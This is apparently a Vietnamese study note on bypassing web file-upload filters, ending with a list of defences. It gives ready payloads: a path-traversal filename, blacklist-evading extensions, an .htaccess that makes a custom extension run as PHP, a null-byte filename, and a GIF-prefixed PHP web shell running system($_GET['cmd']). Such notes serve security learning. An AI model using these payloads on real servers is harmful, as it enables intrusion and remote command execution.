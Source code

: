 # File Upload
1. Sua `Content-Type: image/jpeg`
2. Path traversal: `Content-Disposition: form-data; name="avatar"; filename="..%2fhaha.php"`
3. Black list: Dung `.phar`, `.phtml`
4. Upload file `.htaccess`

`Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .t1en`

Gio co the upload file bat ky co duoi la `.t1en`(haha.t1en)

5. `Content-Disposition: form-data; name="avatar"; filename="haha.php%00.png"`

6. file signatures: `GIF89a;<?php system($_GET['cmd']); ?>`

[file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

7. chua hieu cach lam

8. Cách phòng ngừa:
- Sử dụng whitelist tốt hơn blacklist. Đoán extension mình muốn cho phép upload dễ hơn đoán extension mà kẻ xấu muốn upload vì có rất nhiều extension mình không biết
- File name không được chứa `../` vì có thể gây lỗi path traversal
- Đổi tên file được upload để tránh việc ghi đè file đã có sẵn
- Không upload file lên hệ thống file của server ngay, cho đến khi file đó được kiểm tra hoàn toàn
- Sử dụng framework để xử lý file upload thay vì tự code
